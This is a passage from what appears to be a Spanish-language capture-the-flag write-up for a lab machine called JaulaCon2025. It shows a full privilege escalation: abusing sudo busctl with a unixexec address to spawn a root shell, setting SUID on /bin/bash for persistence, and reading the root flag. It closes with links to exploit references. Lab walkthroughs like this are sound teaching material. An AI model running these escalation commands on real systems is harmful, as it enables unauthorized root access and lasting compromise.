Vamos a aplicarlo:
```bash
JaulaCon2025@JaulaCon2025:~$ sudo /usr/bin/busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
# /bin/bash -i
root@JaulaCon2025:/home/JaulaCon2025# 
root@JaulaCon2025:/home/JaulaCon2025# whoami
root
```
Funcionó.

Te recomiendo que le des **permisos SUID a la Bash**, pues esta sesión de **Root** es inestable y te puede sacar:
```bash
root@JaulaCon2025:/home/JaulaCon2025# chmod u+s /bin/bash
root@JaulaCon2025:/home/JaulaCon2025# exit
exit
# exit
Failed to set property LogLevel on interface org.freedesktop.systemd1.Manager: Transport endpoint is not connected
JaulaCon2025@JaulaCon2025:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 mar 29  2024 /bin/bash
```

Ahora sí, busquemos la última flag:
```bash
JaulaCon2025@JaulaCon2025:~$ bash -p
bash-5.2# whoami
root
bash-5.2# cd /root
bash-5.2# ls
root.txt
bash-5.2# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://www.exploit-db.com/exploits/48746
* https://www.exploit-db.com/exploits/48942
* https://www.exploit-db.com/exploits/48701
* https://www.bludit.com/es/
* https://github.com/DominicBreuker/pspy
* https://crackstation.net/
* https://gtfobins.github.io/gtfobins/busctl/


<br>
